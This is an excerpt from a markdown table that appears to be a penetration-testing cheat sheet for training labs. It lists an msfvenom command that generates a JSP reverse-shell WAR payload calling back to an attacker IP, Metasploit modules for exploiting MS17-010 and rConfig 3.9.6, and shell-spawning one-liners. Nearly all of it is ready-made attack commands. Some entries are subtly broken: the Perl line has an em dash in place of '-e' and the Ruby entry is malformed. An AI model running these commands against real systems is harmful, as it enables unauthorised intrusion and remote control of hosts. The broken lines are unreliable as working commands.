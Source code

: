 | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`                                                                                                                                                                                                                                                                                                                                                                                                                                                 | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                   |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`                                                                                                                           |
| `use exploit/windows/smb/ms17_010_psexec`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010                                                                                 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`                                                                               |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Python command used to spawn an `interactive shell` on a linux-based system                                                                                                                             |
| `/bin/sh -i`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Spawns an interactive shell on a linux-based system                                                                                                                                                     |
| `perl —e 'exec "/bin/sh";'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | Uses `perl` to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `ruby: exec "/bin/sh"`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Uses `ruby` to spawn an interactive shell on a linux-based system                                                                                                                                       |